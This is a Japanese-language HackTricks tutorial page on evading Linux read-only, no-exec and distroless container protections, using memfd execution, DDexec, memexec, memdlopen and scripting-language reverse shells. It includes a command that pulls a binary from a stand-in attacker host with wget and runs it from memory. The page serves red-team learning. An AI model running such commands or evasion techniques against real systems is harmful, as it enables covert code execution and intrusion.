 # FS保護のバイパス: 読み取り専用 / no-exec / Distroless

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください!
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用しています!** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

## 動画

以下の動画では、このページで言及された技術がより深く説明されています:

* [**DEF CON 31 - Linuxメモリ操作の探索: ステルスと回避**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ngとメモリ内dlopen()によるステルス侵入 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 読み取り専用 / no-execシナリオ

Linuxマシンが**読み取り専用 (ro) ファイルシステム保護**でマウントされているのを見つけることはますます一般的になっています。特にコンテナでは、**`readOnlyRootFilesystem: true`**を`securitycontext`に設定するだけで、roファイルシステムでコンテナを実行するのが簡単だからです:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

しかし、ファイルシステムがroとしてマウントされていても、**`/dev/shm`**は書き込み可能であるため、ディスクに何も書き込めないというのは偽りです。ただし、このフォルダは**no-exec保護**でマウントされるため、ここにバイナリをダウンロードしても**実行することはできません**。

{% hint style="warning" %}
レッドチームの観点から見ると、これは**システムにすでに存在しないバイナリをダウンロードして実行することを複雑にします**（バックドアや`kubectl`のような列挙ツールなど）。
{% endhint %}

## 最も簡単なバイパス: スクリプト

バイナリについて言及したことに注意してください。インタープリタがマシン内にある限り、**任意のスクリプトを実行できます**。たとえば、`sh`が存在する場合は**シェルスクリプト**、`python`がインストールされている場合は**Pythonスクリプト**です。

ただし、これはバイナリバックドアや他のバイナリツールを実行するには十分ではありません。

## メモリバイパス

バイナリを実行したいがファイルシステムがそれを許可していない場合、最良の方法は**メモリから実行すること**です。なぜなら、**保護はそこには適用されないからです**。

### FD + execシステムコールバイパス

マシン内に**Python**、**Perl**、または**Ruby**のような強力なスクリプトエンジンがある場合、メモリから実行するためにバイナリをダウンロードし、メモリファイルディスクリプタ（`create_memfd`システムコール）に保存できます。これはこれらの保護によって保護されないため、**`exec`システムコール**を呼び出して**fdを実行するファイルとして指定**できます。

これには、プロジェクト[**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)を簡単に使用できます。バイナリを渡すと、**バイナリが圧縮され、b64エンコードされ**、`create_memfd`システムコールを呼び出して作成された**fd**でそれを**デコードおよび解凍する**ための指示を含むスクリプトが生成されます。

{% hint style="warning" %}
これは、PHPやNodeのような他のスクリプト言語では機能しません。なぜなら、スクリプトから生のシステムコールを呼び出す**デフォルトの方法がないため**、バイナリを保存するための**メモリfd**を作成するために`create_memfd`を呼び出すことができないからです。

さらに、`/dev/shm`にファイルを持つ**通常のfd**を作成しても機能しません。なぜなら、**no-exec保護**が適用されるため、それを実行することは許可されないからです。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)は、プロセスの**`/proc/self/mem`**を上書きすることによって**自分のプロセスのメモリを変更する**技術です。

したがって、プロセスによって実行されているアセンブリコードを**制御することができ**、**シェルコード**を書き込み、プロセスを「変異」させて**任意のコードを実行する**ことができます。

{% hint style="success" %}
**DDexec / EverythingExec**を使用すると、**メモリから**自分の**シェルコード**や**任意のバイナリ**を**ロードして実行**できます。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) は DDexec の自然な次のステップです。これは **DDexec シェルコードのデーモン化** であり、異なるバイナリを **実行したいとき** に DDexec を再起動する必要はなく、DDexec テクニックを介して memexec シェルコードを実行し、**このデーモンと通信して新しいバイナリを読み込んで実行する** ことができます。

**memexec を使用して PHP リバースシェルからバイナリを実行する方法の例** は [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) で見つけることができます。

### Memdlopen

DDexec と同様の目的を持つ [**memdlopen**](https://github.com/arget13/memdlopen) テクニックは、**メモリにバイナリを読み込む** より簡単な方法を提供します。依存関係を持つバイナリを読み込むことさえ可能です。

## Distroless Bypass

### What is distroless

Distroless コンテナは、特定のアプリケーションやサービスを実行するために必要な **最小限のコンポーネント** のみを含み、ライブラリやランタイム依存関係を含みますが、パッケージマネージャー、シェル、システムユーティリティなどの大きなコンポーネントは除外されます。

Distroless コンテナの目的は、**不要なコンポーネントを排除することによってコンテナの攻撃面を減少させ**、悪用可能な脆弱性の数を最小限に抑えることです。

### Reverse Shell

Distroless コンテナでは、**通常のシェルを取得するための `sh` や `bash`** さえ見つからないかもしれません。また、`ls`、`whoami`、`id` などのバイナリも見つかりません... システムで通常実行するすべてのものです。

{% hint style="warning" %}
したがって、**リバースシェル** を取得したり、通常のように **システムを列挙** したりすることは **できません**。
{% endhint %}

しかし、もし侵害されたコンテナが例えば Flask ウェブを実行している場合、Python がインストールされているため、**Python リバースシェル** を取得できます。Node を実行している場合は Node リバースシェルを取得でき、ほとんどの **スクリプト言語** でも同様です。

{% hint style="success" %}
スクリプト言語を使用することで、言語の機能を利用して **システムを列挙** することができます。
{% endhint %}

もし **`read-only/no-exec`** 保護がなければ、リバースシェルを悪用して **ファイルシステムにバイナリを書き込み**、**実行** することができます。

{% hint style="success" %}
ただし、この種のコンテナでは通常これらの保護が存在しますが、**以前のメモリ実行テクニックを使用してそれらを回避する** ことができます。
{% endhint %}

**RCE 脆弱性を悪用してスクリプト言語のリバースシェルを取得し、メモリからバイナリを実行する方法の例** は [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) で見つけることができます。

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア** に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用中です！** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS ハッキングを学び、実践する：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP ハッキングを学び、実践する：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop) を確認してください！
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**Telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) をフォローしてください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の GitHub リポジトリに PR を提出してハッキングトリックを共有してください。

</details>
{% endhint %}

